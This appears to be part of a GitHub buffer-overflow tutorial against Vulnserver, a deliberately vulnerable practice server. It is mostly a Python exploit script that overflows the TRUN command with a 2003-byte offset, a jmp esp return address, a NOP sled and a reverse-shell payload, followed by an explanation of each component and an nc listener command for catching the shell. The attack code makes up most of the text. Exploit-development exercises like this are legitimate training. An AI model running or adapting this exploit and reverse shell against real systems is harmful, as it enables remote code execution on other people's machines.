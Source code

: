 ```python
shellcode = 'A' * 2003 + '\xaf\x11\x50\x62' + nop_sled + payload

def inject_shellcode(host, port, payload):

    while True:
        try:
            s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((host, port))

            s.send(('TRUN /.:/' + payload))
            s.close()

        except:
            print "Error connecting to the server.."
            sys.exit()


if __name__ == '__main__':
    inject_shellcode(host, port, shellcode)
```

> By generating the reverse shell shellcode we can execute commands to the target machine. The shellcode contains the summary:


'A' * 2003 = Offset 

'\xaf\x11\x50\x62 = jmp esp (625011af) which is the return address

nop_sled = a padding. (\x90) skips until it reaches the next instruction

payload = our reverse shell.

```shell
nc -lvp 1337
```
![listener](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/listener.png)

> Once the listener is setup, run vulnserver and execute the script.


![pwned](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/pwned.png)

